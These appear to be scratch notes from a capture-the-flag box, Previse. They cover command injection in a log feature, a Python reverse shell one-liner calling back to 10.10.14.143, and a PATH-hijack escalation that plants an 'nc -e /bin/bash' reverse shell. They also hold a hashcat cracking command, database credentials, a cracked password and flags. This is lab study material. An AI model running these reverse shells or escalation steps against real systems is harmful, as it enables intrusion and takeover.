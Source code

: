 10.10.11.104
## Writeup ##

200 OK on accounts.php to create an account
scavenge backup info
discovert that log sends as python command
abuse to send rev shell
establish www-data shell, 
/home/m4lwhere/user.txt (no permission as www-data)
check mysql
don't have access as www-data, but we have the credentials
```
    root
    mySQL_p@ssw0rd!:)
```
aswell as a database name which is:
```
    previse
```
from there we can find password for m4lwhere, but it's hashed and salted.
so we run a hachcat
which revealed:
`ilovecody112235!`
## user.txt
    eb00b4b602f766ce8072cc8eb237c543
sudo -l > reveals we have root access to /opt/scripts/ac[..]
a path exploit can be applied.so
```bash
cd /dev/shm
export PATH=/dev/shm:$PATH
echo "nc 10.10.14.143 4556 -e /bin/bash" > date
sudo /opt/scripts/ac[..]
```
we just liston to the port and we get root access.
## root.txt
    593e5aa6ac7580196efa3ac63c263b8c



```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.143",4544));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
--
remember to URL encode
--


## NMAP
22
80


function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;


mySQL_p@ssw0rd!:)

m4lwhere
$1$🧂llol$DQpmdvnb7EeuO6UaqRItf. 

```bash
hashcat -a 0 -m 500 user /usr/share/wordlists/rockyou.txt
```



# SSH info
## users
    m4lwhere
## password


----
|time|user|fileID|
|1622482496|m4lwhere|4|
|1622485614|m4lwhere|4|
|1622486215|m4lwhere|4|
|1622486218|m4lwhere|1|
|1622486221|m4lwhere|1|
|1622678056|m4lwhere|5|
|1622678059|m4lwhere|6|
|1622679247|m4lwhere|1|
|1622680894|m4lwhere|5|
|1622708567|m4lwhere|4|
|1622708573|m4lwhere|4|
|1622708579|m4lwhere|5|
|1622710159|m4lwhere|4|
|1622712633|m4lwhere|4|
|1622715674|m4lwhere|24|
|1622715842|m4lwhere|23|
|1623197471|m4lwhere|25|
|1623200269|m4lwhere|25|
|1623236411|m4lwhere|23|
|1623236571|m4lwhere|26|
|1623238675|m4lwhere|23|
|1623238684|m4lwhere|23|
|1623978778|m4lwhere|32|
---